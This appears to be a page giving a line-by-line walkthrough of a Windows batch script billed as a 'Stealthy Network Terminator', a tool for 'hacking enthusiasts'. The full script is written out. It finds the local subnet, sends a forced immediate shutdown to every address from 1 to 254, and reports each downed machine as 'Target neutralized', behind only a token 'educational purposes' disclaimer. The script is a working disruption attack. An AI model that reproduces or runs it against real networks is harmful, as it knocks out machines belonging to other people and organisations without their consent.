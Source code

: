 



sline-by-line explanation:

```plaintext
1. @echo off
```
- Disables echoing of commands, preventing them from being displayed in the console as they are executed.

```plaintext
2. setlocal enabledelayedexpansion
```
- Enables delayed expansion of variables, allowing the use of `!` syntax to access variable values within loops.

```plaintext
3. REM Stealthy Network Terminator - Developed by FLUFFY
```
- A comment providing information about the script, including its name and developer.

```plaintext
4. REM This script is for educational purposes only. Misuse for malicious intent is illegal.
```
- A comment emphasizing the script's intended use for educational purposes only and warning against misuse.

```plaintext
5. REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
6. REM It silently infiltrates your local network, wreaking havoc with a single click.
```
- Comments further describing the purpose of the script, presenting it as a tool for hacking enthusiasts that can silently infiltrate a local network to cause havoc.

```plaintext
7. REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.
```
- A warning emphasizing responsible use of the script and advising against using it on networks without proper authorization.

```plaintext
8. REM Get ready to unleash chaos! Initiating SNT...
```
- A comment indicating that the script is about to begin executing its main functionality.

```plaintext
9. REM Get local IP address
10. for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr IPv4') do (
11.     set "local_ip=%%i"
12. )
```
- Retrieves the local IP address of the machine by parsing the output of the `ipconfig` command and storing it in the variable `local_ip`.

```plaintext
13. if "%local_ip%"=="" (
14.     echo Failed to retrieve local IP address. Aborting operation.
15.     exit /b 1
16. )
```
- Checks if the local IP address was successfully retrieved. If not, it displays an error message and exits the script with an error code.

```plaintext
17. REM Extract network range
18. for /f "tokens=1,2,3 delims=." %%a in ("!local_ip!") do (
19.     set "network_range=%%a.%%b.%%c."
20. )
```
- Extracts the network range from the local IP address by splitting it at each period (.) and storing the first three parts in the variable `network_range`.

```plaintext
21. if "%network_range%"=="" (
22.     echo Failed to extract network range. Aborting operation.
23.     exit /b 1
24. )
```
- Checks if the network range was successfully extracted. If not, it displays an error message and exits the script with an error code.

```plaintext
25. REM Initiating shutdown sequence for all devices in the network range
26. echo Stealth mode activated... Engaging the SNT...
```
- Indicates that the script is about to begin shutting down devices on the network and provides some dramatic flair.

```plaintext
27. set "error_count=0"
```
- Initializes a variable `error_count` to keep track of any errors encountered during the shutdown process.

```plaintext
28. for /L %%i in (1,1,254) do (
29.     set "ip=!network_range!%%i"
30.     shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
31.     if errorlevel 1 (
32.         echo Failed to send shutdown command to !ip!... Evading detection.
33.         set /a "error_count+=1"
34.     ) else (
35.         echo Shutdown command sent to !ip!... Target neutralized.
36.     )
37. )
```
- Loops through all IP addresses in the network range (from 1 to 254), constructs each IP address, and sends a shutdown command to it using the `shutdown` command. It also checks if the command was successful and updates the `error_count` variable accordingly.

```plaintext
38. echo.
```
- Outputs a blank line for better readability in the console.

```plaintext
39. if %error_count% gtr 0 (
40.     echo %error_count% devices failed to shut down... Potential resistance detected.
41. ) else (
42.     echo All devices in the network range have received shutdown command... Network domination achieved!
43. )
```
- Checks if any devices failed to shut down. If so, it displays the number of failures. Otherwise, it indicates that all devices have received the shutdown command successfully.

```plaintext
44. echo Terminating SNT... Exit stealth mode and return to the shadows.
45. pause
```
- Provides a closing message and pauses the script execution to allow the user to view the output before closing the console window.
